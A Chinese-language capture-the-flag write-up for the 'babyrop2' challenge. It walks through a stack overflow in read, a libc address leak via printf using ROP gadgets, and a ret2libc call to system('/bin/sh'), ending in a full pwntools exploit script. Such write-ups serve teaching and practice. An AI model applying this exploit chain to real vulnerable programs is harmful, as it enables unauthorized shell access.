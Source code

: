 首先checksec

![image-20201107222717630](https://static.hack1s.fun/images/2021/02/06/image-20201107222717630.png)

64位程序开启了NX

反编译main函数之后

![image-20201107222819665](https://static.hack1s.fun/images/2021/02/06/image-20201107222819665.png)

溢出点在read函数

和之前的区别在于这个是要使用printf泄漏出libc的地址

在程序中搜索格式化字符串，搜到了`%s`

![image-20201107232442853](https://static.hack1s.fun/images/2021/02/06/image-20201107232442853.png)

在调用printf函数的时候至少需要两个参数

```c
printf("%s",got_read);
```

所以除了`pop rdi`还需要`pop rsi`

之后就首先用printf泄漏出 read在got表的地址，之后回到main函数重新执行，通过libc的版本计算出`system`和`/bin/sh`的偏移后调用拿到shell

```python
from pwn import *
from LibcSearcher import *

io = remote('node3.buuoj.cn',29161)
#io = process('./babyrop2')
elf = ELF('./babyrop2')
io.recvuntil('name? ')

pop_rdi = 0x400733
pop_rsi_r15 = 0x400731

got_read = elf.got['read']
plt_printf = elf.plt['printf']

main = elf.sym['main']
printf_s = 0x400790

payload = 'a'*0x20 + 'b'*8 + p64(pop_rdi) + p64(printf_s) + p64(pop_rsi_r15) + p64(got_read) + p64(0) +p64(plt_printf) + p64(main)

io.sendline(payload)

io.recvuntil('again, ')
io.recvuntil('\n')
real_read = u64(io.recvuntil('!',drop=True).ljust(8,'\0'))

libc = LibcSearcher(address=real_read, func='read')

libc_base = real_read - libc.dump('read')

system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')

payload = 'a'*0x20 + 'b'*0x8 + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)

io.sendline(payload)
io.interactive()
```

两个libc中标号为1的可以拿到shell，flag被爆存在了`/home/babyrop2/flag`